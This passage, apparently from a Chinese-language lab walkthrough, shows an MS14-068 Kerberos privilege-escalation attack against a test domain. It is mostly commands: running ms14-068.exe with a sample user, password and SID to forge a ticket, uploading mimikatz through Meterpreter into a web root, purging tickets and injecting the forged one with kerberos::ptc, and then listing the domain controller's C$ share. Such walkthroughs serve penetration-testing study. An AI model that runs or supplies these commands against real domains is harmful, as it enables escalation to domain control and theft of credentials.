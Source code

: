 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPialwRPSQd6OGJGAcB6Me2nw2tzxjypylBcLuJniaCIwibVkdjlh91UGMicA/640?wx_fmt=png)

```
user：hackbox\\web
pass:!@#Qwe456
sid:S-1-5-21-2005268815-658469957-1189185684-1103
命令如下：
ms14-068.exe -u web@hackbox.com -p !@#Qwe456 -s S-1-5-21-2005268815-658469957-1189185684-1103 -d 10.10.10.149
```

之后就可以使用 ms14-068 进行攻击了：

```
upload /root/mimikatz.exe C:/phpstudy\_pro/WWW/www.webhack123.com/
upload /root/mimidrv.sys C:/phpstudy\_pro/WWW/www.webhack123.com/
upload /root/mimilib.dll C:/phpstudy\_pro/WWW/www.webhack123.com/
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaCxaBaib9CTUSdxkZ4oCSB1LibgQQbqm8Qrf7icrd6o9JPcSKwUSGzRibCQ/640?wx_fmt=png)

生成的票据为：TGT\_web@hackbox.com.ccache。

之后就可以使用 mimikatz 进行攻击了，由于 msf 下的 mimikatz 是阉割版，功能只有几个：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiacibwYwabLsLZdiauaIuGicdcdZO0yh8f3oC9bS3CqFof1ydhplP60cwHQ/640?wx_fmt=png)

所以我们需要上传一个 mimikatz 到目标机器上进行攻击：

```
mimikatz.exe
# 清楚目标内存中的所有票据
kerberos::purge
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaP6MZswXaBibV6f9iaubYrwkOqMOIMHqDqkw0riaGicMoWgN9NVIWH7JoSw/640?wx_fmt=png)

之后进入到 mimikatz 的目录进行攻击：

```
\# 将票据注入到目标内存
kerberos::ptc TGT\_web@hackbox.com.ccache
# 查看当前票据
kerberos::list
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiazTrvYicjM6OYPnQBIusSvc8oSvmkz7eiaKwF2ic5vqjDNtqfIKPqjvM2Q/640?wx_fmt=png)

```
dir \\\\dc\\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaFiccVaCNW4DLEqkCib3ry5Bcibw3q9hvDDC5xb3jWUVHbreYL7uWZ1F6Q/640?wx_fmt=png)

PS：这个票据只能用 7 天，之后就不能使用了！

这个时候，我们就可以通过 dir 命令查看到目标域控的文件了：
